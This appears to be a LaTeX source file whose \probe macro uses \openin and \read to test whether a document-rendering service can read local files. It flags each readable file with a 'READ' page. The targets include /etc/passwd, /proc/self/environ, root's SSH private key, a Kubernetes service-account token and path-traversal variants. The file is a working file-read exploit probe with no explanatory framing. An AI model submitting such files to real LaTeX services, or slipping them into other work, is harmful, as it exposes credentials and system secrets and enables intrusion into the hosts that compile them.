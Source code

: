 \documentclass{article}
\newcommand\probe[1]{%
  \openin\f=#1
  \ifeof\f\else\read\f to \line \newpage READ #1\fi
  \closein\f}
\begin{document}
Base page.
\probe{/etc/hostname}
\probe{/etc/passwd}
\probe{/proc/self/environ}
\probe{/proc/self/cmdline}
\probe{../../../etc/hostname}
\probe{/etc/ssl/certs/../hostname}
\probe{/root/.ssh/id_rsa}
\probe{/var/run/secrets/kubernetes.io/serviceaccount/token}
\end{document}
